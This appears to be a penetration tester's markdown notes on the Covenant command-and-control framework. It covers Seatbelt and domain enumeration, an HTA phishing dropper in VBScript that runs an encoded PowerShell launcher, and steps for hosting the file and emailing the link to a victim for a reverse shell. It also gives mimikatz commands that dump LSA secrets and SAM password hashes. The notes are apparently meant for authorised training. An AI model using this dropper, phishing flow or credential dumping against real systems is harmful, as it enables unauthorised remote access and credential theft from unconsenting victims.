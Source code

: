 # Covenant

## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}

